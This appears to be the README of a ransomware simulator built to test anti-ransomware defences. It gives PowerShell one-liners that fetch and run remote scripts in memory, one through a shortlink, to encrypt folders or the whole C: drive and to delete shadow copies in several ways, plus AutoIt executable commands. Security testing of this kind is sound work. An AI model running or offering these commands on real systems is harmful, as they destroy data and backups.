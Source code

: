 # RansomSimulator

Fileless ransomware simulator - to evaluate your anti-ransomware mitigation technology

**Example:**

Encryption - 

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Encrypt -Path 'C:\Users\tester\Documents\Test';

You may use shortlinks as well, example: 

PS> IEX (New-Object Net.WebClient).DownloadString("https://lnkd.in/gzTmAiKu"); Invoke-RansomSIM -Mode Encrypt -Path 'C:\';

Decryption - 

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Decrypt -Path 'C:\Users\tester\Documents\Test';

# AutoIt
An autoIt script - you may compile it to an executable using Aut2Exe, or execute it using the interpreter (encrypts only .doc files)

**Example:**

Encryption - 

RansomSIM.exe /encrypt C:\
  
Decryption - 

RansomSIM.exe /decrypt C:\

# Simulator for shadow copy manipulation
an aggregation of technique as implemented by ransomware groups to delete shadow copies, usually is performed before the ransomware encryption

Example ('All','VssDeleteAll', 'WmiDeleteAll', 'VssResize', 'DeleteEach', 'CimDelete', 'NativeDelete'):

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-ShadowDeleteSIM"); Invoke-ShadowDeleteSIM -Mode All -Volume 'C:\\'

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-ShadowDeleteSIM"); Invoke-ShadowDeleteSIM -Mode VssDeleteAll -Volume 'C:\\'

